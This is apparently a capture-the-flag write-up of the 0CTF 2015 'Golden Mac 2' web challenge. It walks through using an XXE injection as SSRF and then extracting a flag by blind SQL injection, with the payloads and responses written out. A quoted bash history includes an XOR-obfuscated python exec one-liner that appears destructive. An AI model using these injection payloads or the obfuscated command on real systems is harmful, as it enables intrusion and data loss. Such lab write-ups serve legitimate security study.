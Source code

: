 +++
author = "pwntester"
date = 2015-03-30T18:51:06Z
description = ""
draft = false
slug = "0ctf-2015-golden-mac-2-web-300"
title = "0CTF 2015 - Golden Mac 2 (web 300)"

+++

While playing [Golden Mac 1](http://www.pwntester.com/blog/2015/03/30/0ctf-2015-golden-mac-1-web-300/) I found the `./bash_history` for user `salt` that looked like:

```lang-raw
whoami
pwd
ls
sudo nmap -sS 202.112.26.1/24 -p 22,80,3306
curl http://202.112.26.103/secret_blog/?id=1
msfconsole
curl https://twitter.com/_SaxX_/status/580376290525650944
python -c "exec ''.join([chr(ord(i)^0x46) for i in '/+6)42f)5}f)5h5?52#+nd4+fk4 f8ido'])"<br />
shit!
exit
```
While the SaxX tweet was funny, the `secret_blog` looked promising. The IP was not accessible from the outside but we could leverage our XXE injection into a SSRF vulnerability and visit the blog. Using the XXE injection in the docx document, you can visit `http://202.112.26.103/secret_blog/?id=1` and get `You do not have permission to access this post!`
Other interesting results were:

```lang-raw
http://202.112.26.103/secret_blog/?id=1
You do not have permission to access this post!

http://202.112.26.103/secret_blog/?id=0
Please specify an id :)

http://202.112.26.103/secret_blog/?id=2
You do not have permission to access this post!

http://202.112.26.103/secret_blog/?id=3
Post not exists!
```

Also:
```lang-raw
http://202.112.26.103/secret_blog/?id=1 order by 1
You do not have permission to access this post!
```
Cool! so it seems it is vulnerable to blind SQL injection.

Further steps:
```lang-raw
http://202.112.26.103/secret_blog/?id=1 or id=(select 1)
You do not have permission to access this post!

http://202.112.26.103/secret_blog/?id=1 or id=(select notexisting from nowhere)
500 Internal error

http://202.112.26.103/secret_blog/?id=1 or id=(select flag from flag)
You do not have permission to access this post!
YAY!!
```
At this point it was a matter of running a blind sql injection attack to extract the flag.

True statements:
```lang-raw
http://202.112.26.103/secret_blog/?id=1 and true
You do not have permission to access this post!
```

False statements:
```lang-raw
http://202.112.26.103/secret_blog/?id=1 and false
Post not exists!
```

We get the flag using binary search with regular expressions like:

```lang-raw
http://202.112.26.103/secret_blog/?id=1 and ((select flag from flag) regexp binary '^%s' = 1)
```

FLAG: `0ctf{you_good_pentester_finally_find_me}`



